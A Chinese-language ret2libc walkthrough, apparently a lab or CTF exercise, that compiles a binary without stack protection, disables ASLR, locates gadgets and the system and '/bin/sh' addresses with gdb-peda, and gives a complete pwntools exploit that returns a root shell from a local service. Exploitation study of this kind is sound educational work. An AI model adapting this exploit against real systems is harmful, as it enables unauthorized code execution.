 编译

```shell
gcc -fno-stack-protector ret2libc.c -o ret2libc
echo 0 > /proc/sys/kernel/randomize_va_space
chmod +x ret2libc
```

**offset查找可以通过rbp值来计算**

相同的方法查找`pop rdi ; ret`地址为`0x00000000004006a3`

ps:可以使用如下方法查找字符串

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
ret2libc : 0x40070b --> 0x68732f6e69622f ('/bin/sh')
ret2libc : 0x60070b --> 0x68732f6e69622f ('/bin/sh')
    libc : 0x7ffff7b94cc9 --> 0x68732f6e69622f ('/bin/sh')

```
查找system地址并验证
```bash
gdb-peda$ p &system
$1 = (<text variable, no debug info> *) 0x7ffff7a50270 <__libc_system>
gdb-peda$ x/wx 0x7ffff7a50270
0x7ffff7a50270 <__libc_system>:	0x83485355

```
最终exp
```python
from pwn import *

r = remote('127.0.0.1', 4000)

raw_input('#')
payload = 'A' * 104+p64(0x00000000004006a3)+p64(0x40070b)+p64(0x7ffff7a50270)
r.send(payload)
#print r.recvall()
r.interactive()

```
最终结果
```bash
python mortyexp.py 
[+] Opening connection to 127.0.0.1 on port 4000: Done
#
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)
```